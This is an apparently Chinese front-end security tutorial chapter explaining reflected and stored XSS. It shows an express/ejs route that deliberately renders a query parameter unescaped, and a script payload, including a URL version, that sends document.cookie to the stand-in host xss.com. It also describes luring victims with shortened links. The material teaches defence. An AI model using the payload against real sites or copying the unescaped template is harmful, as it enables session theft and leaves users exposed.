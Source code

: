## 第24讲：你的代码是怎么成为黑客工具的？


随着 Web 应用越来越广泛，各种 Web 安全问题也日益凸显，时常看到网上消息说，某网站用户账号信息遭泄露或盗取。

Web 安全问题很容易成为前端工程师的盲点，一方面浏览器的各种安全策略给前端工程师造就了一种安全的假象；另一方面在通常的理解中，黑客更多的是通过系统漏洞和病毒程序来入侵服务端，让人容易形成安全问题只与服务端关系密切的错觉。这一课时我们就来分析前端相关的 3 个安全问题，从而让你开发的 Web 应用更安全。

### 跨站脚本（Cross Site Scripting，XSS）

理论上跨站脚本的首字母缩写应该为“CSS”，但这样容易和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，所以缩写为 XSS。它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

#### XSS 攻击示例

一般我们把 XSS **分为反射型**、**存储型**、**DOM** 型 3 种类型。

反射型 XSS 也叫非持久型 XSS，是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，也带上了这段 XSS 代码，最后导致浏览器执行了这段恶意代码。

下面通过一个简单的例子加以说明。

服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。

```javascript
<!-- ejs 模板 --> 
你搜索了：<%-search%>
// 服务端处理逻辑 
app.get('/reflection', function(req, res){ 
  res.render('reflection', { 
    search: req.query.search 
  }); 
})
```

比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。

```javascript

<script> 
s=document.createElement('script'); 
s.src=`xss.com?cookie=${document.cookie}`; 
document.head.append(s) 
</script>

```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。

```javascript
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。

存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。
